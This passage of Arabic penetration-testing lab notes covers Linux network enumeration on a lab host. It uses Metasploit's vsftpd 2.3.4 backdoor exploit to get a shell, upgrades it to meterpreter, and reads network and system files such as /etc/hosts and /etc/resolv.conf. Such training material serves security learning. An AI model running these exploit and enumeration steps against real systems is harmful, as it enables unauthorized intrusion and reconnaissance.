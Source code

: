 الى هنا انتهى اللاب نشوف الي بعده  

---

اللاب الرابع الي معنا اليوم هو  

Linux: Enumerating Network Information  
--------------------------------------|  

طبعا نفس اللاب السابق ونفس الاستغلال  
```bash
msfconsole  
use exploit/unix/ftp/vsftpd_234_backdoor  
set RHOSTS 192.72.78.3  
run  
```  

ونشوف انه عطانا شيل الان  

طبعا الشيل الي معنا الان non-interactive راح نخليه interactive عن طريق ال Bash shell  
```bash
/bin/bash -i [to open interactive shell on Linux target]  
```  

طبعا الان راح نحاول نرفع السيشن الى meterpreter session  
```bash
sessions -u 1 [to upgrade from shell session to meterpreter session]  
```  

طبعا الان ندخل على السيشن وننفذ بعض الاوامر الي راح تفيدنا كمعلومات  
```bash
session -i 2  
```  

الان راح ننفذ بعض الاوامر  
```bash
ifconfig [ list of network interfaces connected to the target system and their respective IP addresses]  
netstat [get a list of open ports on the target system]  
route [to obtain is the routing table]  
```  

ونقدر من الشيل ننفذ الاوامر هذي وراح تعطينا نفس مخرجات اوامر الـ meterpreter الي نفذناها بالاعلى  
```bash
shell
ip a s [this command will display the list of network interfaces connected to the target system.]  
cat /etc/networks [the list of configured networks and their subnets]  
cat /etc/hosts [he list of locally mapped domains and their respective IP addresses]  
cat /etc/resolv.conf [ to identify the default DNS name server address]  
```  

الى هنا انتهى اللاب نشوف الي بعده  

---

اللاب الخامس الي معنا اليوم هو  

Linux: Enumerating Processes & Cron Jobs   
-----------------------------------------|  
